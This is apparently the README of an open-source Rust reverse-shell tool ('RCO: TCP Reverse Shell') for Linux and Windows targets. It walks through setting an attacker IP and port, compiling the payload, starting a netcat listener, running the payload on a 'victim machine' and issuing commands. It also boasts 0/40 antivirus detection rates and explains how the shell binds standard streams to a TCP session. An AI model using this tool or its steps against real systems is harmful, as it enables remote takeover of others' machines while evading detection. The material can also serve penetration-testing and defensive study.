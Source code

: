 # RCO: TCP Reverse Shell

Linux target               |  Windows target
:-------------------------:|:-------------------------:
![](https://user-images.githubusercontent.com/14863147/151044738-72dbec76-73b1-47c5-831a-2e995673b559.gif)  |  ![](https://user-images.githubusercontent.com/14863147/151058869-8e5e9f6e-3f7b-4a98-ab65-2ac5017a4e76.gif)


## Using it

1. [Not shown in GIF] Open [the config file](https://github.com/kmanc/remote_code_oxidation/blob/master/rco_config/src/lib.rs) 
and change the IP address and port to match the IP address of your attacking machine and the port you will use for a listener respectively
2. [Not shown in GIF] Compile the executable

    #### For Linux targets
    ```commandline
    cargo build -p tcp_reverse_shell --release
    ```

    #### For Windows targets
    ```commandline
    cargo build --target x86_64-pc-windows-gnu -p tcp_reverse_shell --release
    ```
3. Start a netcat listener on the attacking machine on the same port you configured in step 1
    ```commandline
    nc -nlvp 4444
    ```
4. Execute the payload on the victim machine
5. Return to the listener and enter desired commands for the victim machine to run


## Detection rates

[Linux - 0 / 40](https://kleenscan.com/scan_result/d185d1b1ba09f1a9133b72cb1bb12f177b32f3e65962baf7789b03c968ec8e47)

![image](https://user-images.githubusercontent.com/14863147/151023219-84d7ab95-002e-4d20-89c7-264894d72683.png)

[Windows - 0 / 40](https://kleenscan.com/scan_result/e9ffcf8fffd390b68a4cbc9d506571f0618e473732015be748e1960300bc6a85)

![image](https://user-images.githubusercontent.com/14863147/151023325-d917df57-18ce-4e99-b059-968a479b65ce.png)


## How it works

Both RCO's Linux and Windows TCP reverse shells work by establishing a [TCP session](https://www.scottklement.com/rpg/socktut/overview.html) from the victim machine to the attacking machine. Then a Terminal (Linux) or Command Prompt (Windows) process is spun up with its [standard input](https://en.wikipedia.org/wiki/Standard_streams#Standard_input_(stdin)), [standard output](https://en.wikipedia.org/wiki/Standard_streams#Standard_output_(stdout)), and [standard error](https://en.wikipedia.org/wiki/Standard_streams#Standard_error_(stderr)) all assigned to the TCP session. This means that input commands and output results are read from and written to (respectively) the TCP stream.
